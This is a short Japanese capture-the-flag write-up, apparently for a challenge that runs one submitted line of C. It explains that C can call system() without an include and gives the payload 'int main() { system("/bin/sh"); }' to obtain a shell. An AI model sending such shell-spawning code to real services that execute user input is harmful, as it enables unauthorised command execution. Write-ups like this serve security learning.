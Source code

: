渡されたコードを見ると、Cのコードを1行だけ実行することができるらしいとわかる。
そこで、system関数を呼びシェルを取ることを考える。
実は、C言語にはincludeしなくても標準的な関数を呼び足すことができるため、以下を送信すればシェルがとれる。

int main() { system("/bin/sh"); }


